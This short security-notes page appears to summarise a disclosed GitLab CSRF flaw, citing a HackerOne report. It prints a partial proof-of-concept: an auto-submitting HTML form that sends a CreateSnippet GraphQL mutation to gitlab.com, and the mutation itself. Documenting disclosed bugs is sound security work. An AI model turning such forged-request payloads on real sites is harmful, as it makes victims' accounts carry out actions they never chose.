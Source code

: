 

### Cross-Site Request Forgery (CSRF)

* A CSRF vulnerability was found in GitLab . The following GraphQL mutation was used to exploit the vulnerability:

{% embed url="https://hackerone.com/reports/1122408" %}

```html
<form action="https://gitlab.com/api/graphql/" id="csrf-form" method="GET"> ❶
    <input name= "query" value="mutation CreateSnippet($input: CreateSnippetInput!) --snip--">
    <input name= "variables" value='{"input":{"title":"Tesssst Snippet"} --snip--'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

```graphql
mutation CreateSnippet($input: CreateSnippetInput!) {
  createSnippet(input: $input) {
    errors
    snippet {
      webUrl
      __typename
    }
    --snip--
  }
}
```
